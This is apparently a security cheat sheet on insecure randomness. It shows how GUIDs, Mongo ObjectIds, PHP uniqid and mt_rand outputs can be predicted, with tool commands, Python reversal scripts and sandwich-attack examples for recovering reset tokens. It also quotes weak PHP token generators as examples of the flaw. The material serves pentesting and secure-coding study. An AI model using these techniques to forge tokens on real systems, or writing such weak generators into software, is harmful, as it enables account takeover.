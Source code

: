 # Insecure Randomness

## Summary

* [GUID / UUID](#guid--uuid)
    * [GUID Versions](#guid-versions)
* [Mongo ObjectId](#mongo-objectid)
* [Uniqid](#uniqid)
* [mt_rand](#mt_rand)
* [Other](#other)
* [References](#references)


## GUID / UUID

A GUID (Globally Unique Identifier) or UUID (Universally Unique Identifier) is a 128-bit number used to uniquely identify information in computer systems. They are typically represented as a string of hexadecimal digits, divided into five groups separated by hyphens, such as `550e8400-e29b-41d4-a716-446655440000`. GUIDs/UUIDs are designed to be unique across both space and time, reducing the likelihood of duplication even when generated by different systems or at different times.


### GUID Versions

Version identification: `xxxxxxxx-xxxx-Mxxx-Nxxx-xxxxxxxxxxxx` 
The four-bit M and the 1- to 3-bit N fields code the format of the UUID itself.

| Version  | Notes  |
|----------|--------|
| 0 | Only `00000000-0000-0000-0000-000000000000` |
| 1 | based on time, or clock sequence |
| 2 | reserved in the RFC 4122, but omitted in many implementations |
| 3 | based on a MD5 hash |
| 4 | randomly generated |
| 5 | based on a SHA1 hash |


### Tools

* [intruder-io/guidtool](https://github.com/intruder-io/guidtool) - A tool to inspect and attack version 1 GUIDs
    ```ps1
    $ guidtool -i 95f6e264-bb00-11ec-8833-00155d01ef00
    UUID version: 1
    UUID time: 2022-04-13 08:06:13.202186
    UUID timestamp: 138691299732021860
    UUID node: 91754721024
    UUID MAC address: 00:15:5d:01:ef:00
    UUID clock sequence: 2099
    
    $ guidtool 1b2d78d0-47cf-11ec-8d62-0ff591f2a37c -t '2021-11-17 18:03:17' -p 10000
    ```


## Mongo ObjectId

Mongo ObjectIds are generated in a predictable manner, the 12-byte ObjectId value consists of: 

* **Timestamp** (4 bytes): Represents the ObjectId’s creation time, measured in seconds since the Unix epoch (January 1, 1970).
* **Machine Identifier** (3 bytes): Identifies the machine on which the ObjectId was generated. Typically derived from the machine's hostname or IP address, making it predictable for documents created on the same machine.
* **Process ID** (2 bytes): Identifies the process that generated the ObjectId. Typically the process ID of the MongoDB server process, making it predictable for documents created by the same process.
* **Counter** (3 bytes): A unique counter value that is incremented for each new ObjectId generated. Initialized to a random value when the process starts, but subsequent values are predictable as they are generated in sequence.

Token example

* `5ae9b90a2c144b9def01ec37`, `5ae9bac82c144b9def01ec39`


### Tools

* [andresriancho/mongo-objectid-predict](https://github.com/andresriancho/mongo-objectid-predict) - Predict Mongo ObjectIds
    ```ps1
    ./mongo-objectid-predict 5ae9b90a2c144b9def01ec37
    5ae9bac82c144b9def01ec39
    5ae9bacf2c144b9def01ec3a
    5ae9bada2c144b9def01ec3b
    ```
* Python script to recover the `timestamp`, `process` and `counter`
    ```py
    def MongoDB_ObjectID(timestamp, process, counter):
        return "%08x%10x%06x" % (
            timestamp,
            process,
            counter,
        )

    def reverse_MongoDB_ObjectID(token):
        timestamp = int(token[0:8], 16)
        process = int(token[8:18], 16)
        counter = int(token[18:24], 16)
        return timestamp, process, counter


    def check(token):
        (timestamp, process, counter) = reverse_MongoDB_ObjectID(token)
        return token == MongoDB_ObjectID(timestamp, process, counter)

    tokens = ["5ae9b90a2c144b9def01ec37", "5ae9bac82c144b9def01ec39"]
    for token in tokens:
        (timestamp, process, counter) = reverse_MongoDB_ObjectID(token)
        print(f"{token}: {timestamp} - {process} - {counter}")
    ```


## Uniqid

Token derived using `uniqid` are based on timestamp and they can be reversed.

* [Riamse/python-uniqid](https://github.com/Riamse/python-uniqid/blob/master/uniqid.py) is based on a timestamp
* [php/uniqid](https://github.com/php/php-src/blob/master/ext/standard/uniqid.c)

Token examples

* uniqid: `6659cea087cd6`, `6659cea087cea`
* sha256(uniqid): `4b26d474c77daf9a94d82039f4c9b8e555ad505249437c0987f12c1b80de0bf4`, `ae72a4c4cdf77f39d1b0133394c0cb24c33c61c4505a9fe33ab89315d3f5a1e4`


### Tools

```py
import math
import datetime

def uniqid(timestamp: float) -> str:
    sec = math.floor(timestamp)
    usec = round(1000000 * (timestamp - sec))
    return "%8x%05x" % (sec, usec)

def reverse_uniqid(value: str) -> float:
    sec = int(value[:8], 16)
    usec = int(value[8:], 16)
    return float(f"{sec}.{usec}")

tokens = ["6659cea087cd6" , "6659cea087cea"]
for token in tokens:
    t = float(reverse_uniqid(token))
    d = datetime.datetime.fromtimestamp(t)
    print(f"{token} - {t} => {d}")
```


## mt_rand

Breaking mt_rand() with two output values and no bruteforce.

* [ambionics/mt_rand-reverse](https://github.com/ambionics/mt_rand-reverse) - Script to recover mt_rand()'s seed with only two outputs and without any bruteforce.

```ps1
./display_mt_rand.php 12345678 123
712530069 674417379

./reverse_mt_rand.py 712530069 674417379 123 1
```


## Other

Other bad ideas that are sometimes shipped into production.

* `$token = md5($emailId).rand(10,9999);`
* `$token = md5(time()+123456789 % rand(4000, 55000000));`

Generic identification and sandwitch attack: 

* [AethliosIK/reset-tolkien](https://github.com/AethliosIK/reset-tolkien) - Insecure time-based secret exploitation and Sandwich attack implementation Resources
    ```ps1
    reset-tolkien detect 660430516ffcf -d "Wed, 27 Mar 2024 14:42:25 GMT" --prefixes "attacker@example.com" --suffixes "attacker@example.com" --timezone "-7"
    reset-tolkien sandwich 660430516ffcf -bt 1711550546.485597 -et 1711550546.505134 -o output.txt --token-format="uniqid"
    ``` 


## References

* [In GUID We Trust - Daniel Thatcher - October 11, 2022](https://www.intruder.io/research/in-guid-we-trust)
* [IDOR through MongoDB Object IDs Prediction - Amey Anekar - August 25, 2020](https://techkranti.com/idor-through-mongodb-object-ids-prediction/)
* [[FR] Secret basé sur le temps non sécurisé et attaque par sandwich - Analyse de mes recherches et publication de l’outil “Reset Tolkien” - Tom CHAMBARETAUD / @AethliosIK - 2 apr 2024](https://www.aeth.cc/public/Article-Reset-Tolkien/secret-time-based-article-fr.html)
* [[EN] Unsecure time-based secret and Sandwich Attack - Analysis of my research and release of the “Reset Tolkien” tool - Tom CHAMBARETAUD / @AethliosIK - 2 apr 2024](https://www.aeth.cc/public/Article-Reset-Tolkien/secret-time-based-article-en.html)
* [Secret non sécurisé basé sur le temps et attaques par sandwich - Tom CHAMBARETAUD aka Aethlios](#)
* [Exploiting Weak Pseudo-Random Number Generation in PHP’s rand and srand Functions - Jacob Moore - Oct 18, 2023](https://medium.com/@moorejacob2017/exploiting-weak-pseudo-random-number-generation-in-phps-rand-and-srand-functions-445229b83e01)
* [Breaking PHP's mt_rand() with 2 values and no bruteforce - Charles Fol - 06 January, 2020](https://www.ambionics.io/blog/php-mt-rand-prediction)
